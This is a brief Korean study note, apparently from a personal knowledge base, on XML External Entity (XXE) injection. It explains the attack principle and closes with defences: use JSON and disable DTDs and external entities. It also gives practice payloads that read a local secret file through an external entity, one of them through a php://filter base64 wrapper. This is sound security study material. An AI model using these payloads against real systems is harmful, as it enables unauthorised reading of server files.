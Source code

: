 ```yaml
---
CMDS: Security
관련 문서:
  - "[[109 Security]]"
tags:
  - "#XXE_Injection"
---
```

==X==ML E==x==ternal ==E==ntity Injection : XML을 이용하여 데이터를 주고 받을때 자원을 무단열람하는 행위

XML 파서 기능이 있는 어플리케이션을 공격

  

공격 원리 : XML에서 외부 개체를 참조하도록 DTD를 사용

  

실습

1. 내부 개체 참조
    
    ```XML
    <!DOCTYPE a[
    <!ENTITY str "cre">
    ]>
    <print>&str;</print>
    ```
    
2. 외부 개체 참조
    
    ```XML
    <!DOCTYPE a[
    <!ENTITY str SYSTEM "file:///information/secret_info.txt">
    ]>
    <print>&str;</print>
    ```
    
    ```XML
    <!DOCTYPE a[
    <!ENTITY str SYSTEM "php://filter/read=convert.base64-encode/resource=
    file:///information/secret_info.txt">
    ]>
    <print>&str;</print>
    ```
    

  

대응방안

1. JSON 데이터 형식으로 기능 구현
2. DTD 및 외부 엔티티 비활성화